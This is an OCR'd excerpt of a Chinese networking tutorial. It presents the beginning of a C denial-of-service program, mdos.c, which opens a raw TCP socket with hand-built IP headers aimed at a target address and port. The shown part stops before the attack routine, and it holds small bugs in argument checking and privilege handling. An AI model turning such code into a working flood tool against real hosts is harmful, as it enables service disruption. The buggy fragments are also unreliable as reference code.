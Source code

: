 同样，我们重点关注IP首部中的着色部分区段的填充情况。  
有了上面的知识做铺垫，接下来DOS示例代码的编写就相当简单了。我们来体验一下手动构造原生态IP报文的乐趣吧：  
```c++
//mdos.c
#include <stdlib.h>
#include <stdio.h>
#include <errno.h>
#include <string.h>
#include <unistd.h>
#include <netdb.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <arpa/inet.h>
#include <linux/tcp.h>

//我们自己写的攻击函数
void attack(int skfd,struct sockaddr_in *target,unsigned short srcport);
//如果什么都让内核做，那岂不是忒不爽了，咱也试着计算一下校验和。
unsigned short check_sum(unsigned short *addr,int len);

int main(int argc,char** argv){
        int skfd;
        struct sockaddr_in target;
        struct hostent *host;
        const int on=1;
        unsigned short srcport;

        if(argc!=2)
        {
                printf("Usage:%s target dstport srcport\n",argv[0]);
                exit(1);
        }

        bzero(&target,sizeof(struct sockaddr_in));
        target.sin_family=AF_INET;
        target.sin_port=htons(atoi(argv[2]));

        if(inet_aton(argv[1],&target.sin_addr)==0)
        {
                host=gethostbyname(argv[1]);
                if(host==NULL)
                {
                        printf("TargetName Error:%s\n",hstrerror(h_errno));
                        exit(1);
                }
                target.sin_addr=*(struct in_addr *)(host->h_addr_list[0]);
        }

        //将协议字段置为IPPROTO_TCP，来创建一个TCP的原始套接字
        if(0>(skfd=socket(AF_INET,SOCK_RAW,IPPROTO_TCP))){
                perror("Create Error");
                exit(1);
        }

        //用模板代码来开启IP_HDRINCL特性，我们完全自己手动构造IP报文
         if(0>setsockopt(skfd,IPPROTO_IP,IP_HDRINCL,&on,sizeof(on))){
                perror("IP_HDRINCL failed");
                exit(1);
        }

        //因为只有root用户才可以play with raw socket :)
        setuid(getpid());
```